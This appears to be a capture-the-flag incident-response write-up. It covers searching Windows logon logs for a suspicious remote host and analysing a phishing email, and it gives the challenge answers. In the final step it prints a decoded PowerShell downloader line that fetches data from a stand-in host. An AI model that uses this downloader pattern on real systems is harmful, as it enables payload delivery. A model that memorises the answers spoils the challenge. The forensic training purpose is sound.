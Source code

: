     `grep -E "0X339534|0X339757|0X33946D|0X339870|0X339989|0X339A8A" narrowed.json | grep "10.210.95.77"`

    `grep "0X339534\|0X339757\|0X33946D\|0X339870\|0X339989\|0X339A8A" narrowed.json | grep "10.210.95.77"`

    ```javascript
    {"PayloadData1": "Target: OOPS.NET\\chambers.jennifer", "PayloadData2": "LogonType 3", "PayloadData3": "LogonId: 0X33946D", "UserName": "-\\-", "RemoteHost": "- (10.210.95.77)", "ExecutableInfo": "-", "MapDescription": "Successful logon", "ChunkNumber": 0, "Computer": "OOPS-DC.oops.net", "Payload": "{\"EventData\": {\"Data\": [{\"@Name\": \"SubjectUserSid\", \"#text\": \"S-1-0-0\"}, {\"@Name\": \"SubjectUserName\", \"#text\": \"-\"}, {\"@Name\": \"SubjectDomainName\", \"#text\": \"-\"}, {\"@Name\": \"SubjectLogonId\", \"#text\": \"0x0\"}, {\"@Name\": \"TargetUserSid\", \"#text\": \"S-1-5-21-3521346-774097835-5683131894-1126\"}, {\"@Name\": \"TargetUserName\", \"#text\": \"chambers.jennifer\"}, {\"@Name\": \"TargetDomainName\", \"#text\": \"OOPS.NET\"}, {\"@Name\": \"TargetLogonId\", \"#text\": \"0X33946D\"}, {\"@Name\": \"LogonType\", \"#text\": \"3\"}, {\"@Name\": \"LogonProcessName\", \"#text\": \"Kerberos\"}, {\"@Name\": \"AuthenticationPackageName\", \"#text\": \"Kerberos\"}, {\"@Name\": \"WorkstationName\", \"#text\": \"-\"}, {\"@Name\": \"LogonGuid\", \"#text\": \"c5dfa92b-9ee6-4b7b-9029-207959f780e7\"}, {\"@Name\": \"TransmittedServices\", \"#text\": \"-\"}, {\"@Name\": \"LmPackageName\", \"#text\": \"-\"}, {\"@Name\": \"KeyLength\", \"#text\": \"0\"}, {\"@Name\": \"ProcessId\", \"#text\": \"0x0\"}, {\"@Name\": \"ProcessName\", \"#text\": \"-\"}, {\"@Name\": \"IpAddress\", \"#text\": \"10.210.95.77\"}, {\"@Name\": \"IpPort\", \"#text\": \"39845\"}, {\"@Name\": \"ImpersonationLevel\", \"#text\": \"%%1833\"}, {\"@Name\": \"RestrictedAdminMode\", \"#text\": \"-\"}, {\"@Name\": \"TargetOutboundUserName\", \"#text\": \"-\"}, {\"@Name\": \"TargetOutboundDomainName\", \"#text\": \"-\"}, {\"@Name\": \"VirtualAccount\", \"#text\": \"%%1843\"}, {\"@Name\": \"TargetLinkedLogonId\", \"#text\": \"0x0\"}, {\"@Name\": \"ElevatedToken\", \"#text\": \"%%1842\"}]}}", "Channel": "Security", "Provider": "Microsoft-Windows-Security-Auditing", "EventId": 4624, "EventRecordId": "5378", "ProcessId": 693, "ThreadId": 5958, "Level": "LogAlways", "Keywords": "Audit success", "SourceFile": "C:\\Windows\\system32\\winevt\\Logs\\Security.evtx", "ExtraDataOffset": 0, "HiddenRecord": false, "TimeCreated": "2021-03-16T12:09:22.6771601+00:00", "RecordNumber": "5378"}

    ```

5. **LogonId: 0X33946D**

# Task 3
With the provided information, OOPS was quickly able to identify the employee associated with the account. During the incident response interview, the user mentioned that they would have been checking email around the time that the communication occurred. They don't remember anything particularly weird from earlier, but it was a few weeks back, so they're not sure. OOPS has provided a subset of the user's inbox from the day of the communication.

Identify the message ID of the malicious email and the targeted server.

Downloads:
- User's emails (emails.zip)

# Solution
1. unzip emails
2. use ripmime to extract all the attachments
	a. for i in *; do ripmime -i $i -d attachment_$i; done;
3. further see what kind of attachments are within each email message
	a. file attachment*/*
4. oh the oopsie_update.pptx is not actually a powerpoint file... it's ASCII text
5. cat oopsie_update.pptx and see a powershell command to an "-enc" which sends a base64 string (which we know because of the "==" at the end
6. use cyberchef to decode the bas64 to see:
	$bytes = (New-Object Net.WebClient).DownloadData('http://xomtq.invalid/analysis')
